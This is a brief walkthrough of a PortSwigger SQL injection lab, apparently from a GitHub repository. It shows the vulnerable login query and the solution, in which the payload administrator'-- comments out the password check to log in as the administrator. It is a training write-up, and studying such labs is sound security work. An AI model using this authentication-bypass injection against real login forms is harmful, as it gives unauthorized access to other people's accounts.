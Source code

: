 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88b33b2a-1f08-41b5-91fa-c1baecc2a18b)

## Solution :

Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'hddkdkdkk'
```

For bypass the login just comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'hddkdkdkk'
```
![Screenshot 2024-02-01 152406](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8d4ddfcc-1379-4d7b-9cb8-bd40923798b2)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4a102489-2b97-4f19-9c91-525ffd40f3d8)

